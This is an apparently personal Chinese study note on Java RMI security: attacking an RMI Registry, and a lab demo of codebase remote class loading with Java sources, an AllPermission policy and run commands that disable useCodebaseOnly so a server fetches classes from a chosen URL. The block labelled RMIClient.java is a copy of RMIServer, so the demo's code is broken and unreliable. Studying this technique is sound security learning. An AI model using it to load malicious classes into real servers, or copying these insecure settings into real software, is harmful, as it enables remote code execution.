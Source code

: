 ```yaml
---
created: '21/09/13'
title: RMI篇2
tags:
  - java
  - java安全
---
```

# RMI篇2
RMI虽然分成三个部分，但是通常我们在新建RMI Registry的时候对会直接绑定一个对象在上面，也就是说同时承担了Server和Registry的角色。

那么RMI会给我们带来什么安全问题呢？
1. 如果我们能访问RMI Registry服务，如何对其攻击？
2. 如果我们控制了目标RMI客户端中的RMI Registry的地址，能不能进行攻击？

## 如何攻击RMI Registry
RMI Registry是管理远程对象的地方，可以理解为一个后台，但是我们无法直接通过客户端调用"后台"的接口，例如:
```java
RemoteHelloWorld h = new RemoteHelloWorld(); Naming.rebind("rmi://192.168.135.142:1099/Hello", h);
```
也就是说客户端无法调用`rebind`、 `bind`、`unbind`等方法，不只可以使用`list`和`lookup`方法

## RMI利用codebase执行任意代码
RMI中涉及到一个东西: codebase
CLASSPATH，但CLASSPATH是本地路径，而codebase通常是远程URL，比如http、ftp等。 如果我们指定codebase=`http://example.com/`，然后加载org.vulhub.example.Example类，则 Java虚拟机会下载这个文件`http://example.com/org/vulhub/example/Example.class`，并作为 Example类的字节码。

所以如果我们能控制codebase，就可以加载恶意类了，但是这存在限制的:
- 安装并配置了SecurityManager
- Java版本低于7u21、6u45，或者设置了java.rmi.server.useCodebaseOnly=false，在此配置为true时，jvm只信任预先配置好的codebase，我们也就无法利用了

## 攻击代理示例
先创建四个文件:
- Calc.java
- ICalc.java
- RMIServer.java
- client.policy

目录结构和代码如下:
![](https://gitee.com/guuest/images/raw/master/img/20210913155401.png)

```java
package top.longlone.attackRMI;

import java.rmi.Remote;
import java.rmi.RemoteException;
import java.util.List;

public interface ICalc extends Remote {
    public Integer sum(List<Integer> numbers) throws RemoteException;
}
```

```java
package top.longlone.attackRMI;  
  
import top.longlone.attackRMI.ICalc;  
  
import java.rmi.RemoteException;  
import java.rmi.server.UnicastRemoteObject;  
import java.util.List;  
  
public class Calc extends UnicastRemoteObject implements ICalc {  
 protected Calc() throws RemoteException {  
 }  
 @Override  
 public Integer sum(List<Integer> numbers) throws RemoteException {  
 Integer sum = 0;  
 for (Integer number : numbers) {  
 sum += number;  
 }  
 return sum;  
 }  
}
```

```java
package top.longlone.attackRMI;  
  
import java.rmi.Naming;  
import java.rmi.registry.LocateRegistry;  
  
public class RMIServer {  
 private void start() throws Exception {  
 System.out.println("setup SecurityManager");  
 System.setSecurityManager(new SecurityManager());  
  
 Calc h = new Calc();  
 LocateRegistry.createRegistry(1099);  
 Naming.rebind("rmi://192.168.123.150:1099/Calc", h);  
 }  
  
 public static void main(String[] args) throws Exception {  
 new RMIServer().start();  
 }  
}
```

```
grant {  
permission java.security.AllPermission;  
};
```

然后执行`javac *.java*`对java代码进行编译

再编写RMIClient.java

```java
package top.longlone.attackRMI;

import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;

public class RMIServer {
    private void start() throws Exception {
        System.out.println("setup SecurityManager");
        System.setSecurityManager(new SecurityManager());

        Calc h = new Calc();
        LocateRegistry.createRegistry(1099);
        Naming.rebind("rmi://192.168.123.150:1099/Calc", h);
    }

    public static void main(String[] args) throws Exception {
        new RMIServer().start();
    }
}
```

同样需要将RMIClient编译，这里有个特别注意的点是:**这个Client我们需要在另一个位置运行，因为我们需要让RMI Server在本地CLASSPATH里找不到类，才会去加载codebase中的类，所以不能将RMIClient.java放在RMI Server所在的目录中。**

这时我们再执行命令起一个服务器来测试Client是否去我们指定的恶意地址远程请求类，可以使用python或者php简单起个服务器即可

运行Server和Client:
`D:\Coding\java\maven_study\target\classes>java -Djava.rmi.server.useCodebaseOnly=false -Djava.rmi.server.codebase=http://127.0.0.1:7777/ top.longlone.RMIClient`

`D:\Coding\java\maven_study\src\main\java>java -Djava.rmi.server.hostname=192.168.123.150 -Djava.rmi.server.useCodebaseOnly=false -Djava.security.policy=top/longlone/attackRMI/client.policy top.longlone.attackRMI.RMIServer`

可以看见确实请求了`/top/longlone/RMIClient$1.class`，那么我们只要在远程去部署一个恶意的class文件就能让他执行任意代码了
![](https://gitee.com/guuest/images/raw/master/img/20210913160901.png)


这里和pdf有些不一样的地方: pdf里抛出了一个magic value不正确的错误，但我这里抛出了一个ClassNotFound错误
![](https://gitee.com/guuest/images/raw/master/img/20210913161020.png)